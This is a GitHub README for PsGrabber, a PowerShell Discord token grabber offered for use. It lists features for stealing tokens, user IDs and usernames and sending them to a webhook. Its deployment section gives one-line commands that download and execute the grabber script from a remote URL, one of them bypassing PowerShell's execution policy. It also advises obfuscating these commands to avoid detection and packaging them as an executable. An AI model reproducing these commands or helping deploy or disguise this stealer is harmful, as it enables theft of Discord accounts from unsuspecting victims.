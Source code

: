 ![Logo](https://i.ibb.co/Vtx5jqF/Capture.png)

    
# PsGrabber
A Discord token grabber that exfiltrates tokens to a webhook written in powershell



<details open="open">
  <summary>Table of Contents</summary>
  <ol>
    <li>
      <a href="#features">Features</a>
    </li>
    <li>
      <a href="#deployment">Deployment</a>
    </li>
    <li><a href="#acknowledgements">Acknowledgements</a></li>
    <ul>
        <li><a href="#authors">Authors</a></li>
    </ul>
  </ol>
</details>


## Features

- Inbuilt token checker
- All data sent through a webhook
- Provives userID of tokens found
- Provides token type
- Provides the usernames of the tokens stolen
- Gives information on where the tokens stolen are stored

## Deployment

To effectivly deploy this project, choose one of these steps\
To avoid detection, the following commands should be Encoded using [Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)


#### Define HookUrl and use the payload as a powershell script
```powershell
$hookurl="";iex((iwr https://raw.githubusercontent.com/MattOverthrow/PSGrabber/main/PSGrabber.ps1).content)
```

#### Convert to batch and then convert into an exe using a third party program
```batch
powershell.exe -NoProfile -ExecutionPolicy bypass -Command '$hookurl="";iex((iwr https://raw.githubusercontent.com/MattOverthrow/PSGrabber/main/PSGrabber.ps1).content)'
```

## Acknowledgements

 - danielbohannon for The [obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) used in the program
  


## Authors

- [@MattOverthow](https://github.com/MattOverthrow/)
